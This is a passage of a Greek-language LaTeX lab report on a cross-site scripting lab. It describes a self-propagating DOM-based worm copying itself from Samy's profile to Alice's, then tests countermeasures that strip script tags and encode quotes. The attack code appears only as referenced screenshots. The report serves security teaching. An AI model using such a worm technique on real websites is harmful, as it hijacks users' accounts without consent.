			
\includegraphics[width=1\textwidth]{image/6.9.PNG}		
\end{center}

\textbf{Προσεγγιση DOM}
\noindent
Ο κώδικας που γράφουμε είναι παρομοίως με των προηγούμενο άπλα έχουμε
προσθέσει τα HeaderTag,jsCode,tailTag και wormCode 
\begin{center}
			
\includegraphics[width=1\textwidth]{image/6.10.PNG}		
\end{center}
\noindent
Δοκιμάζουμε με την Alice να δούμε στο προφίλ του Samy. Παρατηρούμε ότι έχουν
αποσταλεί τα Request με το που μπήκαμε στο προφίλ του. 
\begin{center}
			
\includegraphics[width=1\textwidth]{image/6.11.PNG}		
\end{center}
\noindent
Πηγαίνοντας στο προφίλ της Alice βλέπουμε ότι έχει τροποποιηθεί το προφίλ
και έχει αντιγράφει ο κακόβουλος κώδικας.
\begin{center}
			
\includegraphics[width=1\textwidth]{image/6.12.PNG}		
\end{center}
\section{Αντίμετρα}
\subsection*{Απάντηση:}

\noindent
Ενεργοποιούμε το πρώτο αντίμετρο.
\begin{center}
			
\includegraphics[width=1\textwidth]{image/7.1.PNG}		
\end{center}

\begin{center}
			
\includegraphics[width=1\textwidth]{image/7.2.PNG}		
\end{center}

\noindent
Πάμε να κάνουμε δοκιμή με έναν απλό κώδικα alert.

\begin{center}
			\includegraphics[width=1\textwidth]{image/7.3.PNG}		
\end{center}
\noindent
Παρατιρουμε οτι το Request αποστελετε κανονικα με τα script tags.

Πατώντας save το alert δεν εκτελείτε άλλα εμφανίζετε σαν κείμενο, μπαίνοντας
ξανά στο Edit παρατηρούμε ότι έχει αφαιρέσει τα script tags.
\begin{center}
			\includegraphics[width=1\textwidth]{image/7.4.PNG}		
\end{center}
\noindent
Ενεργοποιούμε και το άλλο αντίμετρο αναφέροντας τα σχόλια.
\begin{center}
			\includegraphics[width=1\textwidth]{image/7.5.PNG}		
\end{center}

\begin{center}
			\includegraphics[width=1\textwidth]{image/7.6.PNG}		
\end{center}

\begin{center}
			\includegraphics[width=1\textwidth]{image/7.7.PNG}		
\end{center}

\begin{center}
			\includegraphics[width=1\textwidth]{image/7.8.PNG}		
\end{center}

\noindent 
Δοκιμάζουμε ξανά και παρατηρούμε πάλι ότι το Request αποστέλλεται κανονικά.

\begin{center}
			\includegraphics[width=1\textwidth]{image/7.9.PNG}		
\end{center}
\noindent 
Αυτήν την φορά ώμος εκτός του ότι έχουν αφαιρεθεί τα script tags 
έχουν αντικατασταθεί και τα (') με το \&\#39
\begin{center}
			\includegraphics[width=1\textwidth]{image/7.10.PNG}		
\end{center}